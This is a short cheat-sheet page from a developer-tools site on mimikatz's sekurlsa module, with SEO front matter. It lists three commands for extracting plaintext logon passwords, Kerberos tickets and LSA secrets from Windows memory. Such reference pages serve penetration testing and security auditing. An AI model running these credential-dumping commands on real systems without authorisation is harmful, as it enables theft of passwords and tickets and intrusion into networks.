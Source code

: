 ```yaml
---
title: "Extract Mimikatz Secrets - Dump Credentials | Online Free DevTools by Hexmos"
name: mimikatz-sekurlsa
path: /freedevtools/tldr/windows/mimikatz-sekurlsa
canonical: "https://hexmos.com/freedevtools/tldr/windows/mimikatz-sekurlsa/"
description: "Extract passwords with Mimikatz sekurlsa. Dump credentials, secrets, and Kerberos tickets from Windows memory. Free online tool, no registration required."
category: windows
keywords:
- windows credential extraction
- mimikatz password dump
- sekurlsa password recovery
- lsa secrets dump
- kerberos ticket retrieval
- windows memory analysis
- plaintext password extraction
- windows security auditing
- local security authority secrets
- windows pentesting
features:
- Extract plaintext passwords from memory
- List Kerberos tickets stored in memory
- Dump LSA secrets and credentials
- Analyze Windows security protocols
- Retrieve sensitive information from memory dumps
ogImage: "https://hexmos.com/freedevtools/site-banner.png"
twitterImage: "https://hexmos.com/freedevtools/site-banner.png"
---
```


# mimikatz sekurlsa

> Extract credentials and secrets from memory.
> Requires debug privileges.
> More information: <https://github.com/gentilkiwi/mimikatz>.

- Extract plaintext passwords:

`mimikatz "sekurlsa::logonpasswords"`

- List Kerberos tickets in memory:

`mimikatz "sekurlsa::tickets"`

- Dump LSA secrets:

`mimikatz "sekurlsa::secrets"`
